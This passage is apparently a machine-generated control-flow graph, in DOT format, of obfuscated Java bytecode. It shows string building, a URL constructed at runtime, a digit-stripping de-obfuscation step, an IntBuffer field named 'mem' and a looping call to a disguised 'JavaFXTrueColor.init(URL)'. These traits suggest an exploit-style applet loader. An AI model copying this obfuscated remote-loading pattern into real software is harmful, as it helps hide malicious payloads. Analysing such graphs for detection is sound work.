    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r46"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r46";
    "load.r r46"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r46";
    "store.r r46"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r46";
    "load.r r46"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r324"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r324";
    "load.r r324"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "store.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r67"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r67";
    "load.r r67"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "new java.net.URL"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.net.URL";
    "new java.net.URL"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r285";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r285"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \"55590955509090\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \"55590955509090\"";
    "push \"5\""
    "push \"55590955509090\""->"push \"5\"";
    "push \"5\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <JavaFX: java.nio.IntBuffer[] __I(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <JavaFX: java.nio.IntBuffer[] __I(java.lang.String,java.lang.String)>";
    "fieldput <JavaFX: java.nio.IntBuffer[] mem>"
    "virtualinvoke <JavaFX: java.nio.IntBuffer[] __I(java.lang.String,java.lang.String)>"->"fieldput <JavaFX: java.nio.IntBuffer[] mem>";
    "fieldput <JavaFX: java.nio.IntBuffer[] mem>"->"load.r r0";
    "staticinvoke <JavaFXTrueColor: void init(java.net.URL)>"
    "load.r r0"->"staticinvoke <JavaFXTrueColor: void init(java.net.URL)>";
    "push 10L"
    "staticinvoke <JavaFXTrueColor: void init(java.net.URL)>"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "store.r r0"->"return";
}
